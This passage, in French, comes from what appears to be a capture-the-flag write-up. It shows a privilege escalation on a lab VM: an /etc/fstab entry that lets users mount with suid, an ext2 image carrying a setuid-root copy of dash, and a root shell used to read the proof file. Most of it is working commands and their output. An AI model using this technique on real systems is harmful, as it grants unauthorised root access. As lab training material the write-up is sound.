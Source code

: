 ## La méthode à l'ancienne

Ma première idée était de modifier `/etc/fstab` pour permettre de monter une image disque dans laquelle j'aurais placé un binaire setuid root :

```
/var/tmp/disk.img    /mnt    ext2    rw,user,exec,suid 0 0
```

J'ai choisi de mettre l'image dans `/var/tmp` car une tache cron supprime apparemment ce qui se trouve dans `/tmp`.

Je crée un fichier vide de 10Mo que je formate en ext2 :

```console
bla1@ck04:/home/bla2$ dd if=/dev/zero of=disk.img bs=1024 count=10240
10240+0 records in
10240+0 records out
10485760 bytes (10 MB, 10 MiB) copied, 0.0701639 s, 149 MB/s
bla1@ck04:/home/bla2$ mkfs.ext2 disk.img 
mke2fs 1.44.1 (24-Mar-2018)
Discarding device blocks: done                            
Creating filesystem with 10240 1k blocks and 2560 inodes
Filesystem UUID: d7f46770-9726-443f-8e00-d4792228e0a7
Superblock backups stored on blocks: 
        8193

Allocating group tables: done                            
Writing inode tables: done                            
Writing superblocks and filesystem accounting information: done

bla1@ck04:/home/bla2$ cp disk.img /var/tmp/
```

J'ai ensuite récupéré l'image sur ma machine ainsi que `/bin/dash`. Je place alors le binaire dans l'image montée et je lui ajoute le bit setuid root :

```console
$ scp -i ~/.ssh/key_no_pass bla1@192.168.56.173:/var/tmp/disk.img .
$ scp -i ~/.ssh/key_no_pass bla1@192.168.56.173:/bin/dash .
$ sudo mount -t ext2 disk.img /mnt/
$ sudo mv dash /mnt/
$ sudo chown root:root /mnt/dash
$ sudo chmod 4755 /mnt/dash
$ ls -al /mnt/dash
-rwsr-xr-x 1 root root 121432 11 avril 22:09 /mnt/dash
$ sudo umount /mnt
```

Une fois renvoyée sur la VM, je peux monter l'image et exécuter le shell setuid :

```console
bla1@ck04:/home/bla2$ mount /var/tmp/disk.img 
bla1@ck04:/home/bla2$ ls -al /mnt/
total 137
drwxr-xr-x  3 root root   1024 Apr 12 01:40 .
drwxr-xr-x 25 root root   4096 Apr 12 00:00 ..
-rwsr-xr-x  1 root root 121432 Apr 12 01:39 dash
drwx------  2 root root  12288 Apr 12 01:36 lost+found
bla1@ck04:/home/bla2$ /mnt/dash -p
# id
uid=1001(bla1) gid=0(root) euid=0(root) groups=0(root),1001(bla1),1002(bla2)
# cd /root
# ls
proof.txt
# cat proof.txt
_________        ___.                 ____  __.      .__       .__     __    _______      _____  
\_   ___ \___.__.\_ |__   ___________|    |/ _| ____ |__| ____ |  |___/  |_  \   _  \    /  |  | 
```
